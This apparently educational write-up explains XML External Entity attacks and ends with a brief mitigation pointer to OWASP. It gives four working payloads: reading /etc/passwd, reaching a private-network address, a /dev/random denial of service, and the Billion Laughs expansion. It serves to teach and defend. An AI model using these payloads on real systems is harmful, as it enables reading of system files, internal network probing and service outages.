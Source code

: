 #### Scenario
##### Payload 1: Accessing System Files

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]> <foo>&xxe;</foo>
```
 
The output of this command will be the contents of the system's /etc/passwd file. The entity name is xxe, and the system identifier is "file:///etc/passwd."
 
 ##### Payload 2: Accessing a Private Network
 
```xml
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```

This attack attempts to access the server's private network.

##### Payload 3: Denial of Service

```xml
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```

This command attempts to execute a denial of service attack (DOS) because it forces the XML parser to try and retrieve the contents of the system file /dev/random (which is Linux's pseudo-random number generator) and substitute it for the entityname "xxe".

 ##### Payload 4: Denial of Service: The Billion Laughs Attack
 
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

This attack attempts to exhaust the system's resources by forcing the XML parser to expand each nested entity. This small file ~1kb, actually contains one-billion lol's when fully expanded.

#### Mitigation
One of the most effective ways to mitigate XXE attacks is to disable external entities completely. OWASP provides helpful documentation for disabling DTDs for many of the most popular parsers [OWASP's XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html).

---
